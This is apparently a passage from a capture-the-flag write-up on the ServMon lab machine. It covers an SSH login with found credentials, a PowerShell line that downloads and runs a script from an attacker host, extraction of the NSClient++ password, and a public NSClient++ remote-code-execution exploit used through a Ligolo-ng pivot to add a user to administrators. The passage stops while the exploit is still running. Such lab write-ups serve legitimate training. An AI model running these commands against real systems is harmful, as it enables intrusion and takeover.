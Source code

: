 Credentials: `nadine:L1k3B1gBut7s@W0rk`

SSH is running, so that works for login:

```text
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## Privilege Escalation

```powershell
PS C:\Users\Nadine> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/wp.ps1')"
...
```

```powershell
PS C:\Program Files\NSClient++> cat .\nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT
...
```

[NSClient++](https://nsclient.org/docs/) is a process monitor. Originally it was a Nagios thing but it's now a more generic component.

This may be vulnerable to <https://www.exploit-db.com/exploits/48360>, "NSClient++ 0.5.2.35 - Authenticated Remote Code Execution".

NSClient++ is running on port 8443. But, this fails if I hit the port directly:

```console
$ python3 x.py -t servmon.htb -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://servmon.htb:8443
[!] Obtaining Authentication Token . . .
[-] Error obtaining auth token, is your password correct? Hit error at: /auth/token
```

So, I setup LigoloNG and try it from the inside:

```console
$ python3 x.py -t 240.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://240.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: BXABhHYHoZkp)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
```